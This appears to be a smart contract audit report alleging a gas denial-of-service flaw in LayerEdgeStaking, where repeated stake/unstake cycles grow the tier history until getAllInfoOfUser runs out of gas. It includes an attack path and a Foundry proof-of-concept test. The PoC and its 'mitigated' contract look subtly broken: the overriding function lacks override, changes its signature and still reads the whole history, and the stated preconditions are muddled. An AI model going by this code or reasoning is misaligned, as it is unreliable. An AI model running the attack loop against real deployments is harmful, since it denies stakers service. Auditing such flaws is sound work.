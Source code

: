 Colossal Pearl Wren

High

# No Upper Bound on Tier History Growth (Gas DoS Risk)

### Summary

The unbounded growth of tier history will cause a denial of service for stakers as an attacker will repeatedly stake/unstake to create tier oscillations

### Root Cause

In `LayerEdgeStaking.sol`, the `stakerTierHistory[user]` array grows unboundedly as each tier change is logged as an event and stored in the array. The `getAllInfoOfUser()` function attempts to process this entire history, which can exceed gas limits.

[_recordTierChange](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol?plain=1#L817)

[getAllInfoOfUser](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol?plain=1#L630)

### Internal Pre-conditions

1. Protocol needs to have active staking functionality
2. `stakerTierHistory` array needs to be accessible to users
3. Gas limit needs to be finite (which it always is)

### External Pre-conditions

1. Gas prices need to be low enough for the attack to be profitable
2. Network needs to be congested enough that gas limits are reached

### Attack Path

1. Attacker calls `stake()` with minimum amount
2. Attacker immediately calls `unstake()`
3. Attacker repeats steps 1-2 multiple times
4. Each iteration adds a new entry to `stakerTierHistory`
5. When a user calls `getAllInfoOfUser()`, the function attempts to process the entire history
6. Function reverts due to gas exhaustion

### Impact

The stakers suffer an approximate loss of functionality as they cannot access their staking information. The attacker loses gas fees but successfully prevents other users from accessing the protocol.


### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/LayerEdgeStaking.sol";
import "../src/WETH9.sol";

contract LayerEdgeStakingTest is Test {
    LayerEdgeStaking public staking;
    WETH9 public weth;
    address public attacker;
    address public user;
    
    // Constants for testing
    uint256 public constant MIN_STAKE_AMOUNT = 0.1 ether;
    uint256 public constant ATTACK_ITERATIONS = 1000; // Number of stake/unstake cycles
    
    function setUp() public {
        // Deploy contracts
        weth = new WETH9();
        staking = new LayerEdgeStaking(address(weth));
        
        // Setup test accounts
        attacker = makeAddr("attacker");
        user = makeAddr("user");
        
        // Fund accounts
        vm.deal(attacker, 100 ether);
        vm.deal(user, 100 ether);
        
        // Attacker wraps some ETH
        vm.startPrank(attacker);
        weth.deposit{value: 50 ether}();
        vm.stopPrank();
    }
    
    function testGasExhaustionAttack() public {
        // First, let's demonstrate the attack
        vm.startPrank(attacker);
        
        // Approve staking contract to spend attacker's WETH
        weth.approve(address(staking), type(uint256).max);
        
        // Perform multiple stake/unstake cycles
        for(uint i = 0; i < ATTACK_ITERATIONS; i++) {
            staking.stake(MIN_STAKE_AMOUNT);
            staking.unstake(MIN_STAKE_AMOUNT);
        }
        
        vm.stopPrank();
        
        // Now try to get user info - this should fail due to gas exhaustion
        vm.startPrank(user);
        vm.expectRevert(); // Expect the transaction to revert due to gas exhaustion
        staking.getAllInfoOfUser(attacker);
        vm.stopPrank();
    }
    
    function testMitigatedVersion() public {
        // Deploy mitigated version with pagination
        LayerEdgeStakingMitigated stakingMitigated = new LayerEdgeStakingMitigated(address(weth));
        
        vm.startPrank(attacker);
        
        // Approve staking contract to spend attacker's WETH
        weth.approve(address(stakingMitigated), type(uint256).max);
        
        // Perform multiple stake/unstake cycles
        for(uint i = 0; i < ATTACK_ITERATIONS; i++) {
            stakingMitigated.stake(MIN_STAKE_AMOUNT);
            stakingMitigated.unstake(MIN_STAKE_AMOUNT);
        }
        
        vm.stopPrank();
        
        // Now try to get user info with pagination - this should succeed
        vm.startPrank(user);
        
        // Get first page of results
        (uint256[] memory amounts, uint256[] memory timestamps, bool hasMore) = 
            stakingMitigated.getUserInfoPaginated(attacker, 0, 100);
            
        // Verify we got results and there are more pages
        assertTrue(amounts.length > 0);
        assertTrue(hasMore);
        
        vm.stopPrank();
    }
}

// Mitigated version of the contract
contract LayerEdgeStakingMitigated is LayerEdgeStaking {
    constructor(address _weth) LayerEdgeStaking(_weth) {}
    
    // Add pagination to the user info retrieval
    function getUserInfoPaginated(
        address user,
        uint256 startIndex,
        uint256 pageSize
    ) external view returns (
        uint256[] memory amounts,
        uint256[] memory timestamps,
        bool hasMore
    ) {
        uint256 totalEntries = stakerTierHistory[user].length;
        
        // Calculate how many entries to return
        uint256 endIndex = startIndex + pageSize;
        if (endIndex > totalEntries) {
            endIndex = totalEntries;
        }
        
        // Create arrays for the page
        uint256 pageLength = endIndex - startIndex;
        amounts = new uint256[](pageLength);
        timestamps = new uint256[](pageLength);
        
        // Fill the arrays
        for (uint256 i = 0; i < pageLength; i++) {
            amounts[i] = stakerTierHistory[user][startIndex + i].amount;
            timestamps[i] = stakerTierHistory[user][startIndex + i].timestamp;
        }
        
        // Indicate if there are more pages
        hasMore = endIndex < totalEntries;
    }
    
    // Override the original function to use pagination internally
    function getAllInfoOfUser(address user) external view returns (
        uint256[] memory amounts,
        uint256[] memory timestamps
    ) {
        uint256 totalEntries = stakerTierHistory[user].length;
        amounts = new uint256[](totalEntries);
        timestamps = new uint256[](totalEntries);
        
        // Use pagination to fetch all data in chunks
        uint256 pageSize = 100;
        uint256 currentIndex = 0;
        
        while (currentIndex < totalEntries) {
            (uint256[] memory pageAmounts, uint256[] memory pageTimestamps, bool hasMore) = 
                this.getUserInfoPaginated(user, currentIndex, pageSize);
                
            // Copy page data to result arrays
            for (uint256 i = 0; i < pageAmounts.length; i++) {
                amounts[currentIndex + i] = pageAmounts[i];
                timestamps[currentIndex + i] = pageTimestamps[i];
            }
            
            currentIndex += pageSize;
            if (!hasMore) break;
        }
    }
}
```

### Mitigation

1. Introduce pagination for tier history queries
2. Implement a pruning mechanism for old tier history entries
3. Add a maximum limit to the number of tier changes that can be stored per user